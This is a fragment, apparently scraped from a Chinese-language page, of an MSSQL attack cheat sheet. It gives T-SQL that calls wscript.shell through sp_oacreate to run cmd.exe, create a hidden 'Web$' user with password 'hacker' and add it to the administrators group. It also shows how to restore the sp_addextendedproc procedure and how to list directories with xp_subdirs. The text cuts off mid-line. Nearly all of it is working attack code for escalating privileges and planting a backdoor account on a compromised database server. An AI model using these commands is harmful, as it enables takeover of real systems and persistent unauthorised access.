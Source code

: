 @shell,'run',null,'c:winntsystem32cmd.exe /c net localgroup administrators Web /add'<br />xp或2003server系统: 126错误！命令<br />declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:windowssystem32cmd.exe /c net user Web$ hacker /add'<br />declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:windowssystem32cmd.exe /c net localgroup administrators Web$ /add'<br />=======================================================================<br />找不到存储过程 sp_addextendedproc<br />解决方法:<br />create procedure sp_addextendedproc --- 1996/08/30 20:13<br />@functname nvarchar(517),/* (owner.)name of function to call */<br />@dllname varchar(255)/* name of DLL containing function */<br />as<br />set implicit_transactions off<br />if @@trancount &gt; 0<br />begin<br />raiserror(15002,-1,-1,'sp_addextendedproc')<br />return (1)<br />end<br />dbcc addextendedproc( @functname, @dllname)<br />return (0) -- sp_addextendedproc<br />GO<br />这段代码贴入查询分离器,执行<br />查看目录<br />exec master.dbo.xp_subdirs 'c:'<br />列出磁盘<br />e